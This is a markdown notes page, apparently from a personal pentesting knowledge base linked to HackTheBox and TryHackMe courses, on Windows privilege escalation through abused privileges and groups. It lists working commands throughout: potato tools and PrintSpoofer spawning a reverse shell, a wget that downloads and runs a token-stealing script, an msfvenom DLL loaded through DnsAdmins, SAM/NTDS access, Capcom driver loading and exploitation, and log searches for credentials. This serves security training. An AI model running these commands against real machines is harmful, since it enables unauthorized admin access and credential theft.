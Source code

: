 # Privileges

[![windows_privilege_escalation](../../../../_badges/htb/windows_privilege_escalation.svg)](https://academy.hackthebox.com/course/preview/windows-privilege-escalation)
[![windowsprivesc20](../../../../_badges/thmp/windowsprivesc20.svg)](https://tryhackme.com/room/windowsprivesc20)
[![adventofcyber2](../../../../_badges/thm/adventofcyber2/day11.svg)](https://tryhackme.com/room/adventofcyber2)
[![return](../../../../_badges/htb-p/return.svg)](https://app.hackthebox.com/machines/Return)

<div class="row row-cols-lg-2"><div>

Users may have privileges for running some system tasks such as backups that may be used to escalate.

We can list your privileges with the command below, **but**, you won't see all of them unless you're in an admin prompt.

```shell!
PS> whoami /priv
PS> # your groups can have privileges too!
```

Privileges are [listed and explained here](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants).
</div><div>

You can find way to exploit them on: 

* [Priv2Admin](https://github.com/gtworek/Priv2Admin) <small>(1.7k ⭐)</small>
* [PrivFu](https://github.com/daem0nc0re/PrivFu/) <small>(0.7k ⭐)</small>
* ...

Privileges may have been granted but not enabled. Some privileges can be enable using their exploit script, others can be enabled with builtin commands, and for most others, we can use:

* [Set-TokenPrivilege.ps1](https://www.leeholmes.com/adjusting-token-privileges-in-powershell/) <small>(2011 🪦)</small>
* [PoshPrivilege](https://github.com/proxb/PoshPrivilege/) with [Enable-Privilege.ps1](https://www.powershellgallery.com/packages/PoshPrivilege/0.3.0.0/Content/Scripts%5CEnable-Privilege.ps1) <small>(0.1k ⭐, 2015 🪦)</small> 
</div></div>

<hr class="sep-both">

## NormalPrompt2Admin

<div class="row row-cols-lg-2"><div>

We may use these as a normal user to escalate to admin.

#### SeImpersonate — steal access tokens

[![windows_privilege_escalation](../../../../_badges/htb/windows_privilege_escalation.svg)](https://academy.hackthebox.com/course/preview/windows-privilege-escalation)
 
The most common approach is to use [potato](/cybersecurity/red-team/s4.privesc/windows/tools/potato.md) scripts. 

```ps
PS> # You can pick any port for -l. It's for DCOM traffic. 
PS> .\JuicyPotato.exe -l any_port -p c:\windows\system32\cmd.exe -a "/c <reverse shell command>" -t *
````

You can use [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) <small>(1.7k ⭐, 2020 🪦)</small>:

````ps
PS> .\PrintSpoofer.exe -c "<reverse shell command>"
````

Additional references:

* [RogueWinRM](https://github.com/antonioCoco/RogueWinRM) <small>(0.6k ⭐, 2020 🪦)</small> using [WinRM](/operating-systems/networking/protocols/winrm.md)
* [token-priv](https://github.com/hatRiot/token-priv/tree/master) <small>(0.7k ⭐, 2017 🪦)</small>
</div><div>
</div></div>

<hr class="sep-both">

## ElevatedPromptToAdmin

<div class="row row-cols-lg-2"><div>

We may use these from an elevated prompt to escalate to admin.

#### SeDebugPrivilege — Dump Process Memory

[![windows_privilege_escalation](../../../../_badges/htb/windows_privilege_escalation.svg)](https://academy.hackthebox.com/course/preview/windows-privilege-escalation)

We can use methods shown in [Dump Credentials From LSASS Process](/operating-systems/windows/security/index.md#dump-credentials-from-lsass-process) to dump a process memory, which is often LSASS.

We can also steal and reuse the parent [access token](/operating-systems/windows/security/index.md#access-token) such as LSASS.

```ps
PS> wget "https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1" -O psgetsys.ps1
PS> .\psgetsys.ps1
PS> [MyProcess]::CreateProcessFromParent(<target_process_pid>,"<command_to_execute>","")
```

➡️ See also: [PrivFu/SeDebugPrivilegePoC](https://github.com/daem0nc0re/PrivFu/tree/main/PrivilegedOperations/SeDebugPrivilegePoC).
</div><div>

#### SeTakeOwnershipPrivilege — Takeover Any File/Folder

[![windows_privilege_escalation](../../../../_badges/htb/windows_privilege_escalation.svg)](https://academy.hackthebox.com/course/preview/windows-privilege-escalation)

We could access the SAM database or NTDS.dit...

```shell!
PS> takeown /f 'C:\poc.txt'
PS> icacls 'C:\poc.txt' /grant my_username:F
```
</div></div>

<hr class="sep-both">

## GroupToAdmin

<div class="row row-cols-lg-2"><div>

#### Backup Operators — Access any file

[![windows_privilege_escalation](../../../../_badges/htb/windows_privilege_escalation.svg)](https://academy.hackthebox.com/course/preview/windows-privilege-escalation)

*-- Grants SeBackup and SeRestore privileges --*

We can use [SeBackupPrivilege](https://github.com/giuliano108/SeBackupPrivilege) <small>(0.2k ⭐, 2013 🪦)</small> to enable/disable the privilege and exploit it.

```shell!
PS> Import-Module .\SeBackupPrivilegeUtils.dll
PS> Import-Module .\SeBackupPrivilegeCmdLets.dll
PS> Get-SeBackupPrivilege # is enabled?
PS> Set-SeBackupPrivilege # enable it
```

We can use `robocopy` to perform a backup copy:

```shell!
PS> robocopy /B <source_folder> <dest_folder> <filename>
```

We could access the SAM database or NTDS.dit...

<br>

#### DnsAdmins — Configure The DNS Service

[![windows_privilege_escalation](../../../../_badges/htb/windows_privilege_escalation.svg)](https://academy.hackthebox.com/course/preview/windows-privilege-escalation)

*-- Grants access to network DNS information --*

The DNS service runs as NT AUTHORITY\SYSTEM. When restarted, if `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\DNS\Parameters\ServerLevelPluginDll` registry key is set and points to a DLL file, then it will be executed. We can generate a DLL using [msfvenom](/cybersecurity/red-team/tools/frameworks/metasploit/msfvenom.md).

```ps
$ msfvenom -p windows/x64/exec cmd='<some command>' -f dll -o malicious.dll
```
```ps
PS> Get-ADGroupMember -Identity DnsAdmins # as DNS admin
PS> dnscmd /config /serverlevelplugindll <absolute_path_to_dll>
```

You need to restart the DNS service. If you made changes to the groups of the current user, you need to log out and log back in.

<br>

#### Event Log Readers — Can Read Logs

[![windows_privilege_escalation](../../../../_badges/htb/windows_privilege_escalation.svg)](https://academy.hackthebox.com/course/preview/windows-privilege-escalation)

You may find cleartext credentials within the logs.

```ps
PS> wevtutil qe Security /rd:true /f:text | Select-String "/user"
PS> wevtutil qe Security /rd:true /f:text /r:share_name /u:username /p:password | Select-String "/user"
```

You can also use `Get-WinEvent` but it requires special permissions.
</div><div>

#### Server Operators

[![windows_privilege_escalation](../../../../_badges/htb/windows_privilege_escalation.svg)](https://academy.hackthebox.com/course/preview/windows-privilege-escalation)
[![return](../../../../_badges/htb-p/return.svg)](https://app.hackthebox.com/machines/Return)

*-- Grants many privileges as [listed here](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#server-operators) --*

Members of the Server Operators group can administer domain controllers. They can start/stop/manage services, backup/restore files...

Refer to [Windows services](services.md) notes or [Backup Operators](#backup-operators--access-any-file) notes.

<br>

#### Print Operators

[![windows_privilege_escalation](../../../../_badges/htb/windows_privilege_escalation.svg)](https://academy.hackthebox.com/course/preview/windows-privilege-escalation)
[![return](../../../../_badges/htb-p/return.svg)](https://app.hackthebox.com/machines/Return)

*-- Grants the SeLoadDriverPrivilege among other privileges --*

Members of the Print Operators can manage shares, delete printers, and before Windows 10 Version 1803, we would load a malicious driver using a user registry key. [Capcom](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys) is a known vulnerable driver.

We could use [EoPLoadDriver](https://github.com/TarlogicSecurity/EoPLoadDriver/) <small>(0.1k ⭐, 2018 🪦)</small> to enable the SeLoadDriverPrivilege and configure load the [capcom.sys](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys) driver.

```ps
PS> .\EoPLoadDriver.exe System\CurrentControlSet\Capcom .\Capcom.sys
```

We could do it manually by compiling [EnableSeLoadDriverPrivilege](https://raw.githubusercontent.com/3gstudent/Homework-of-C-Language/master/EnableSeLoadDriverPrivilege.cpp) <small>(1.0k ⭐, 2018 🪦)</small> and create registry keys pointint to [capcom.sys](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys):

```ps
PS> .\EnableSeLoadDriverPrivilege.exe
<ok>
PS> reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Path\to\Capcom.sys"
PS> reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1
```

<details class="details-n">
<summary>Compile EnableSeLoadDriverPrivilege.cpp on Windows</summary>

Add the following headers:

```cpp
#include <windows.h>
#include <assert.h>
#include <winternl.h>
#include <sddl.h>
#include <stdio.h>
#include "tchar.h"
<...>
```

You may use `cl` from Visual Studio or Windows SDK:

```shell!
PS> cl.exe /DUNICODE /D_UNICODE EnableSeLoadDriverPrivilege.cpp
```
</details>

<details class="details-n">
<summary>Compile EnableSeLoadDriverPrivilege.cpp on Linux</summary>

Add the following headers:

```cpp
#include <windows.h>
#include <assert.h>
#include <winternl.h>
#include <sddl.h>
#include <stdio.h>
#include "tchar.h"
<...>
```

Install either `g++-mingw-w64-i686` or `g++-mingw-w64-x86-64` according to your architecture <small>($env:PROCESSOR_ARCHITECTURE)</small>. 
```shell!
$ sed -i -e 's/%\(.*\)ws/%\1ls/g' EnableSeLoadDriverPrivilege.cpp # %ls on Linux (even if target is Windows)
$ x86_64-w64-mingw32-g++ -DUNICODE -D_UNICODE -municode -mconsole -o EnableSeLoadDriverPrivilege.exe EnableSeLoadDriverPrivilege.cpp -lntdll -luser32 -ladvapi32 -static-libgcc -static-libstdc++ -O2
$ strip EnableSeLoadDriverPrivilege.exe
```
</details>

You can exploit the driver using [ExploitCapcom](https://github.com/tandasat/ExploitCapcom) <small>(0.3k ⭐, 2022 🪦)</small>:

```shell!
PS> .\ExploitCapcom.exe
```

You can use [driverview](http://www.nirsoft.net/utils/driverview.html) to list loaded drivers.
</div></div>